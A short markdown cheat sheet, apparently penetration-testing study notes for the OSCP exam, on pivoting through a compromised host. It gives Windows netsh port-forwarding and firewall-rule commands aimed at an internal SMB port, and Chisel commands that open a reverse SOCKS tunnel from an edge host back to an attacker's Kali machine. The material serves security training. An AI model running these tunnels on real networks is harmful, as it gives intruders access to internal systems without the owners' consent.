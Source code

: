 #Pivoting

## Windows

### Kali PORT -> WIN -> Victim NW PORT

* Check IP Helper Service is running and IPV6 must be enabled for the interface

```cmd
C:\Windows\system32> netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
## update firewall settings
C:\Windows\system32> netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
```

Check
```cmd
netstat -anp TCP | find "4455" 
```
Nice summary of the oscp slides
https://sushant747.gitbooks.io/total-oscp-guide/content/port_forwarding_and_tunneling.html


# Chisel
Get same version binaries for both hosts
https://github.com/jpillora/chisel/releases

https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html

On attacker host (Kali)
```bash
./chisel server -p 8000 --reverse
```

on the edge host
```bash
./chisel client {edge_host_ip}:8000 R:socks
```
